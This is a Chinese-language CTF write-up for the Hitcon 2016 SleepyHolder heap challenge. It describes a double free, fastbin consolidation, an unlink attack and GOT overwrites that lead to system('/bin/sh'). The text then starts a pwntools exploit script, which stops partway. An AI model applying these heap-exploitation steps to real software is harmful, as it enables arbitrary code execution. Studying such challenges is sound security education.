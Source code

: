 ```yaml
---
title: how2heap writeup
description: 
categories:
tags: 
grammar_cjkRuby: true
---
```



### Hitcon 2016 SleepyHolder
1. 题目的漏洞是可以 double free

![doublefree](https://www.github.com/Byzero512/blog_img/raw/master/1538372886367.png)

2. 但是这道题目最特别的地方在于: 最多只有三个chunk,每一个chunk大小不一样,而且有一个是 mmap chunk
> 我们并不能直接使用 double free, 而是先 fast_dup_consolidate, 实现double free: 结果是 同一个chunk会同时出现在 fastbin 和 smallbin, 为 uaf漏洞
> 光靠uaf无法达到利用, 要再加上unlink利用.

#### 利用流程

1. malloc fastbin
2. malloc largebin(防止free fastbin的时候fastbin与topchunk合并)
3. free fastbin
4. malloc mmap_largechunk(调用malloc consolidate, 结果是之前free的fastchunk出现在smallbin)
5. free fastbin(达成double free)
6. malloc fastbin(注意这里的payload要能够绕过unlink)
7. free largebin(第二步malloc出来的), 这时会unlink前面那一个
8. 利用unlink之后我们就可以控制全局指针段
9. 改 free_got-->puts_plt
10. leak puts_got, 然后 leak 出system
11. 改 free_got --> system
12. 设置好 '/bin/sh\x00' 的位置

> 难点在于绕过unlink:
我们在fastchunk中伪造一个小fastchunk,并设置好它的指针指向bss段中合适的位置,即可绕过并且利用unlink

#### exp
```python
p=process('./SleepyHolder')
context.log_level='debug'
context.arch='amd64'
gdb.attach(p)

e=ELF('./SleepyHolder')
free_got=e.got['free']
puts_plt=e.plt['puts']      ## ba free_got change to puts 
puts_got=e.got['puts']

def newsmall(payload):
	p.recvuntil('3. Renew secret\n')
	p.sendline('1')
	p.recv()
	p.sendline('1')
	p.recvuntil('Tell me your secret: \n')
	p.sendline(payload)

def newbig(payload):
	p.recvuntil('3. Renew secret\n')
	p.sendline('1')
	p.recv()
	p.sendline('2')
	p.recvuntil('Tell me your secret: \n')
```